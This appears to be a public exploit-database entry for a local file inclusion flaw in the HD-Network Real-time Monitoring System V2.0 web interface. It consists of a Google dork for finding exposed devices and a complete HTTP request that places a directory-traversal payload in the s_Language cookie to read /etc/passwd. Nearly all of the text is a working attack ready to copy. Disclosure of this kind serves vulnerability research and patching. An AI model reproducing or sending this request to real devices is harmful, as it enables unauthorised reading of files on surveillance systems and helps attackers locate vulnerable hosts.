 # -
# Exploit Title: HD-Network Real-time Monitoring System 2.0 - Local File Inclusion (LFI) # Google Dork: intitle:"HD-Network Real-time Monitoring System V2.0" # Date: 11/12/2021 # Exploit Author: Momen Eldawakhly (Cyber Guy) # Vendor Homepage: N/A # Version: V2.0 # Tested on: Nginx NVRDVRIPC Web Server  Proof of Concept:  GET /language/lang HTTP/1.1 Referer: http://example.com User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36 Cookie: s_asptitle=HD-Network%20Real-time%20Monitoring%20System%20V2.0; s_Language=../../../../../../../../../../../../../../etc/passwd; s_browsertype=2; s_ip=; s_port=; s_channum=; s_loginhandle=; s_httpport=; s_sn=; s_type=; s_devtype= Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Encoding: gzip,deflate,br Host: VulnIP Connection: Keep-alive

